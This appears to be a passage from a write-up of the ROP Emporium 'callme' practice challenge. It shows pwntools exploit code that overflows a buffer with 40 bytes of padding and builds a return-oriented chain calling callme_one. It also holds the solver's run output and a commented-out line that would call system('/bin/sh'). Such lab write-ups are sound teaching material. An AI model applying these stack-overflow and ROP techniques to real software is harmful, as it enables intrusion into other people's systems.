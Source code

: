 ```python
	p64(para3),
	elf.symbols['callme_one'],

	# rop.chain(),
)

# Writing payload to file on same directory
f = open("payload", "wb")
f.write(payload)

# Send payload after asked for input
p.sendlineafter(">", payload)

p.interactive()
```

To solve, we just need to add for callme_two and callme_three.

```python
wayell@ubuntu:~/Desktop/ROPEmporium/3.callme$ python3 solve.py 
[*] '/home/wayell/Desktop/ROPEmporium/3.callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/wayell/Desktop/ROPEmporium/3.callme/callme': pid 46190
<generator object ELF.search at 0x7f755a2d7200>
/home/wayell/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
 Thank you!
callme_one() called correctly
callme_two() called correctly
[*] Process '/home/wayell/Desktop/ROPEmporium/3.callme/callme' stopped with exit code 0 (pid 46190)
ROPE{a_placeholder_32byte_flag!}
```

Solver 1

```python
from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('callme')
p = process()

# Number of padding bytes (to offset RIP)
padding = 40

# Function parameters
para1 = 0xDEADBEEFDEADBEEF
para2 = 0xCAFEBABECAFEBABE
para3 = 0xD00DF00DD00DF00D

# # Load ROP gadgets
# rop = ROP(elf)
# rop.system(next(elf.search(b'/bin/sh')))

# # Print the ROP chain
# pprint(rop.gadgets)
# print(rop.dump())
print(elf.search(asm('ret')))
```